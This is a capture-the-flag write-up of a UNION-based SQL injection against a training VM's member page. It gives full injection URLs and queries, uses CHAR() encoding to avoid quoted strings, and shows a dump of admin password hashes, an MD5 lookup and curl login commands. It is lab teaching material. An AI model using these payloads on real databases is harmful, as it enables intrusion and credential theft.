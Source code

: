 # SignIn Page

__http://192.168.99.101/index.php?page=signin__

## Description
This page show sign in form with username and password fields.

## Form Outputs
The [page](#http://192.168.99.101/?page=member&id=42%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit) return the list of members
We should use injections again
[select schema_name, 0 from information_schema.schemata](#http://192.168.99.101/index.php?page=member&id=-1%20union%20select%20schema_name,%200%20from%20information_schema.schemata&Submit=Submit)
```
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: information_schema
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_Brute_Force
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_Sql_Injection
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_guestbook
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_images
Surname : 0
ID: -1 union select schema_name, 0 from information_schema.schemata 
First name: Member_survey
Surname : 0
```
We get the following schemas:
1. information_schema
2. Member_Brute_Force
3. Member_Sql_Injection
4. Member_guestbook
5. Member_images
6. Member_survey

We need all tables of schema Member_Brute_Force and all columns.
Firstly we need ASCII orders of the Member_Brute_Force chars

``` python -c 'print([ord(c) for c in "Member_Brute_Force"]);'       
[77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101]
``` 
instead of using in select where table_schema='Member_Brute_Force'

we will request [select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)](#http://192.168.99.101/index.php?page=member&id=-1%20union%20select%20table_name,0%20from%20information_schema.tables%20where%20table_schema=CHAR(77,%20101,%20109,%2098,%20101,%20114,%2095,%2066,%20114,%20117,%20116,%20101,%2095,%2070,%20111,%20114,%2099,%20101)&Submit=Submit)

we get the page with database db_default
```
ID: -1 union select table_name,0 from information_schema.tables where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: db_default
Surname : 0
```
[select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101)](#http://192.168.99.101/index.php?page=member&id=-1%20union%20select%20column_name,0%20from%20information_schema.columns%20where%20table_schema=CHAR(77,%20101,%20109,%2098,%20101,%20114,%2095,%2066,%20114,%20117,%20116,%20101,%2095,%2070,%20111,%20114,%2099,%20101)&Submit=Submit)
```
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: id
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: username
Surname : 0
ID: -1 union select column_name,0 from information_schema.columns where table_schema=CHAR(77, 101, 109, 98, 101, 114, 95, 66, 114, 117, 116, 101, 95, 70, 111, 114, 99, 101) 
First name: password
Surname : 0
```
we get columns:
1. id
2. username
3. password

Let's check users [select username, password from Member_Brute_Force.db_default&Submit=Submit](#http://192.168.99.101/index.php?page=member&id=-1%20union%20select%20username,%20password%20from%20Member_Brute_Force.db_default&Submit=Submit)

```
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
ID: -1 union select username, password from Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```
Surname is the same. Let's use the info

## Flag
The flag we've got is [shadow](#https://md5.gromweb.com/?md5=3bf1114a986ba87ed28fc1b5884fc2f8)

```
curl -s 'http://192.168.99.101/index.php?page=signin&username=admin&password=dummy&Login=Login' -o dummy.html
curl -s 'http://192.168.99.101/index.php?page=signin&username=admin&password=shadow&Login=Login' -o admin.html
diff admin.html dummy.html 
```
Inside the diff output html we get the flag


## Safety
Through this exercise, the importance of secure coding practices, input validation, and access control is highlighted. It emphasizes the need to sanitize user input and use proper authentication mechanisms to prevent SQL injection attacks.